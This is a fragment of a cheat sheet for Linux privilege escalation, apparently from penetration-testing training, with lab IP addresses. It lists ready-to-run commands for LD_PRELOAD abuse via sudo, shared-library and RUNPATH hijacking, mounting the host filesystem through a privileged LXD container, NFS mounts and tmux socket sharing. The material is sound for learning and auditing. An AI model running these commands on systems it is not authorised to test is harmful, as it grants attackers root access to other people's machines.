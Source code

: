 | `sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart`                            | Escalate privileges using `LD_PRELOAD`                |
| `readelf -d payroll \| grep PATH`                                                   | Check the RUNPATH of a binary                         |
| `gcc src.c -fPIC -shared -o /development/libshared.so`                              | Compiled a shared libary                              |
| `lxd init`                                                                          | Start the LXD initialization process                  |
| `lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine`                  | Import a local image                                  |
| `lxc init alpine r00t -c security.privileged=true`                                  | Start a privileged LXD container                      |
| `lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true`      | Mount the host file system in a container             |
| `lxc start r00t`                                                                    | Start the container                                   |
| `showmount -e 10.129.2.12`                                                          | Show the NFS export list                              |
| `sudo mount -t nfs 10.129.2.12:/tmp /mnt`                                           | Mount an NFS share locally                            |
| `tmux -S /shareds new -s debugsess`                                                 | Created a shared `tmux` session socket                |
| `./lynis audit system`                                                              | Perform a system audit with `Lynis`                   |